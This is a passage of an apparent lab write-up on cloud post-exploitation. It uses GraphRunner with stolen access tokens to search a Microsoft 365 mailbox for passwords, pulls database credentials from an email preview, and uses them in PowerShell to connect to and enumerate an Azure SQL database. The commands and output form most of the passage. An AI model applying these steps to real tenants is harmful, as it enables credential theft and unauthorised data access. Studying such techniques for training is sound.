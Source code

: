 We find a password, which works against protected document

![](loot-exchange-teams-sharepoint-with-graphrunner-4.png)

Let's continue investigation with emails and try searching for mailbox of our user
```
└─PS> Invoke-SearchMailbox -Tokens $tokens -SearchTerm "password" -MessageCount 40                                                                                                                                                          
[*] Using the provided access tokens.
[*] Found 5 matches for search term password
Subject: Subscribers database | Sender: /O=EXCHANGELABS/OU=EXCHANGE ADMINISTRATIVE GROUP (FYDIBOHF23SPDLT)/CN=RECIPIENTS/CN=EF775FA670FB409789970E587F6F4F04-36FA333D-17 | Receivers: Sam Olsson | Date: 11/06/2023 17:24:50 | Message Preview: ...login below: Username: financereports Password: $reporting$123 Server: mbt-finance.database.windows.net Database: Finance Clara ...
================================================================================
[*] Do you want to download these emails and their attachments? (Yes/No)
No
[*] Quitting...

```

We can see from the preview the credentials for a Finance database. The subdomain `database.windows.net`, which is [Azure SQL database](https://learn.microsoft.com/en-us/azure/azure-sql/database/sql-database-paas-overview?view=azuresql). According to documentation states that Azure SQL databases are based on the latest stable version of the Microsoft SQL Server database engine.
```
Username: financereports
Password: $reporting$123
Server: mbt-finance.database.windows.net
Database: Finance
```

We can interact with the database using PowerShell, thus create a connection. To close the connection, `$conn.Close()`
```
$conn = New-Object System.Data.SqlClient.SqlConnection
$password='$reporting$123'
$conn.ConnectionString = "Server=mbt-finance.database.windows.net;Database=Finance;User ID=financereports;Password=$password;"
$conn.Open()
```

Then, we can start enumerating
```
$sqlcmd = $conn.CreateCommand()
$sqlcmd.Connection = $conn
$query = "SELECT * FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE';"
$sqlcmd.CommandText = $query
$adp = New-Object System.Data.SqlClient.SqlDataAdapter $sqlcmd
$data = New-Object System.Data.DataSet
$adp.Fill($data) | Out-Null
$data.Tables
```
We see `Subscribers` table.
```
└─PS> $data.Tables

TABLE_CATALOG TABLE_SCHEMA TABLE_NAME  TABLE_TYPE
------------- ------------ ----------  ----------
Finance       dbo          Subscribers BASE TABLE
```
